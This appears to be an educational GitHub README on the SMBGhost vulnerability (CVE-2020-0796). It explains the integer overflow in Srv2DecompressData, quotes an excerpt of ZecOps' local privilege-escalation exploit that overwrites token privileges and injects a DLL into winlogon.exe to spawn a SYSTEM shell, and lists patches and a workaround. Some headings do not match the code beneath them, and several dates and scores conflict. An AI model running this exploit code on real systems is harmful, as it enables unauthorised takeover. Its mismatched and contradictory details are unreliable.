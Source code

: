# CVE-2020-0796


## Abstract
On March 12,2020, Microsoft confirmed that a critical vulnerability affecting the SMBv3 (Server Message Block 3.1.1) protocol associated with its latest version of Windows 10 and it has a case number: CVE-2020-0796. This is known as SMBGhosting in Windows 10 OS. 
-	date discovered: 2019-4-11 by Zecops Research Team
-	date patched: 2020-10-3 by Microsoft 

CVSSv3: 
-	base score: 10.0
-	Impact score: 0
-	Exploitability Score: 3.9
-	Severity: CRITICAL

Affected version: 
-	Windows 10 version (1903 and 1909)
-	Windows Server Version (1903 and 1909)


## Introduction
### What is SMB and what it does?
[Official defination](https://en.wikipedia.org/wiki/Server_Message_Block) In computer networking, Server Message Block, one version of which was also known as Common Internet File System (CFIS), is a communication protocol for providing shared access to files, printers and serial ports between nodes on a network. It also provides an authenticated inter-process communication (IPC) mechanism

This Protocol enables your devices to communciate with remote computers or servers. It basically lets you share files.

### What is SMBGhost and what it does? 
 This is a type of vulnerability that affects Windows 10 computers and was first reported publicly on 10 March, 2020. 
 
 This vulnerability allows the attacker to remotely execute the code on the SMB server or client. 



### who uses it and why would you want to use it
Users could be anyone among us. Here is a scenario, Imaging you are with your laptops, and using a printer connected to the company’s computer. When you request to print a document, your laptop uses the SMB protocol to send the print request to the company’s computer; while through the same protocol, your laptop will receive a response on whether the file is printed. 


### Real world impact
SMB version
-	SMBv1: released by IBM, Modified by Microsoft, (1990)
-	SMBv2: By Microsoft, Boosted performance
-	SMBv3: Increased Security

![download](https://user-images.githubusercontent.com/25041906/111921659-15191b00-8a6c-11eb-9c72-2afd91c12c3f.jpg)

The infamous WannaCry ransomware was an exploit of a vulnerability in SMB version one.
It infected hundreds of thousands of computers and encrypted their data. Users have to pay in Bitcoin to get their data back. 






## Vulnerability POC
The vulnerability exits because SMB does not handle the compressed network packets properly. In particular, the Srv2DecompressData function is called to decompress the packet, but it does not validate the original compressed size (originalCompressedSegmentSize + Offset) of the packet header. Therefore, a small amount of the additional memory for offset address is copied in the kernel memory. No surprisingly, the bug can be used to cause overflow to gain higher local privileges.
The below POC created by zecops research team illustrates how the bug can be exploited remotely without authentication by causing a blue screen of death.This is a simplified version of the function below



### Create a simple packet header 
Creating a network packet is one of the main features of Scapy. Initially, I will create a simplest header of a packet, which only contains source ip address and destination ip address. 


>>>                                               
typedef struct _COMPRESSION_TRANSFORM_HEADER
{
    ULONG ProtocolId;
    ULONG OriginalCompressedSegmentSize;
    USHORT CompressionAlgorithm;
    USHORT Flags;
    ULONG Offset;
} COMPRESSION_TRANSFORM_HEADER, *PCOMPRESSION_TRANSFORM_HEADER;
 
typedef struct _ALLOCATION_HEADER
{
    // ...
    PVOID UserBuffer;
    // ...
} ALLOCATION_HEADER, *PALLOCATION_HEADER;
 
NTSTATUS Srv2DecompressData(PCOMPRESSION_TRANSFORM_HEADER Header, SIZE_T TotalSize)
{
    PALLOCATION_HEADER Alloc = SrvNetAllocateBuffer(
        (ULONG)(Header->OriginalCompressedSegmentSize + Header->Offset),
        NULL);
    If (!Alloc) {
        return STATUS_INSUFFICIENT_RESOURCES;
    }
 
    ULONG FinalCompressedSize = 0;
 
    NTSTATUS Status = SmbCompressionDecompress(
        Header->CompressionAlgorithm,
        (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER) + Header->Offset,
        (ULONG)(TotalSize - sizeof(COMPRESSION_TRANSFORM_HEADER) - Header->Offset),
        (PUCHAR)Alloc->UserBuffer + Header->Offset,
        Header->OriginalCompressedSegmentSize,
        &FinalCompressedSize);
    if (Status < 0 || FinalCompressedSize != Header->OriginalCompressedSegmentSize) {
        SrvNetFreeBuffer(Alloc);
        return STATUS_BAD_DATA;
    }
 
    if (Header->Offset > 0) {
        memcpy(
            Alloc->UserBuffer,
            (PUCHAR)Header + sizeof(COMPRESSION_TRANSFORM_HEADER),
            Header->Offset);
    }
 
    Srv2ReplaceReceiveBuffer(some_session_handle, Alloc);
    return STATUS_SUCCESS;
}
>>>


By comparing line 20 (size + offet) and line 31 (size - offset), we can easily know that the buffer overflowed by executing this function. So If the offset is not zero, it triggers an additional integer overflow by three steps, allocate, decompress and copy. As a result, the memory allocation is shown in the picture below.

![Srv2DecompressData function](https://www.google.com/search?q=Srv2DecompressData&rlz=1C5CHFA_enCA919CA919&sxsrf=ALeKk03wKnRn0j00hxWl75aBvq5trvRMCQ:1616359135729&source=lnms&tbm=isch&sa=X&ved=2ahUKEwir7fSAn8LvAhWfGVkFHY8DBcMQ_AUoAnoECAEQBA&biw=1920&bih=976#imgrc=orKq2sACNF39NM&imgdii=lzwKxoCYwmreCM)


Whether or not the copy step is going to be executed, we already triggered the overflow since we changed the allocated size to be smaller than it actually needed. Thus, we are able to overflow any size of the content.
This could be a crucial vulnerability because we can use this to crash a specific windows system by an IP address.  The code below was created by ZECOPS research team, which customized a network packet header size and set up the offset in a token and exploit the vulnerability. The core part of the source code is shown as below.



### Send and receive packets (sr)
One of the most important segments in network is sending and receiving the packets. The sr() function is how we can implement them. The function will return both answered and unanswered packets. Below is a demonstration on how we use this function to send and receive a ICMP packets, as well as to decode the received the packets. 

>>> 
def exploit():
   """
   Exploits the bug to escalate privileges.
   Reminder:
   0: kd> dt nt!_SEP_TOKEN_PRIVILEGES
      +0x000 Present          : Uint8B
      +0x008 Enabled          : Uint8B
      +0x010 EnabledByDefault : Uint8B
   """
   token = get_token_address()
   if token is None: sys.exit(-1)

   what = b'\xFF' * 8 * 3
   where = token + 0x40

   print('[+] Writing full privileges on address %x' % (where))

   write_what_where('127.0.0.1', what, where)

   print('[+] All done! Spawning a privileged shell.')
   print('[+] Check your privileges: !token %x' % (token))

   dll_path = pathlib.Path(__file__).parent.absolute().joinpath('spawn_cmd.dll')
   subprocess.call(['Injector.exe', '--process-name', 'winlogon.exe', '--inject', dll_path], stdout=open(os.devnull, 'wb'))

And when the SMB decompressed the header, it will crash the windows system at the beginning by bule screen of death as below.
![blue screen of death](https://en.wikipedia.org/wiki/Blue_screen_of_death#/media/File:Bsodwindows10.png)

But if we keep trying the exploit several times, we can get the system/authority privilege.

![get the root privilege](start.png)
![get the root privilege](end.png)

The whole stack buffer overflow source code refer to zecops research team at https://github.com/ZecOps/CVE-2020-0796-LPE-POC


### Mitigating SMB Ghosting Attacks
There are several entities and organizations at risk of this attack:
Small and large government entities, Large and small business entities, and home users.

#### There are 3 main methods of preventing SMB Ghosting Attacks
Method 1: Involves using the Windows Update program to install the new security updates or cumulative updates released in March 2020.
Method 2: Visiting the official Microsoft website to download the SMB Ghosting security patch which would be the service stack update KB4541338, cumulative update KB4551762.
Method 3: This is a workaround provided by Microsoft which is not a Recommended solution as it does not Prevent the Exploitation, It Just Disables the SMBv3 Compression.
Execute this command in PowerShell:
Command - Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" DisableCompression -Type DWORD -Value 1 -Force


### Conclusion 


### Resources
[ Security vuknerability ](https://en.wikipedia.org/wiki/SMBGhost_(security_vulnerability))
[ SMB protocol ](https://www.youtube.com/watch?v=csocwMe7l_E)
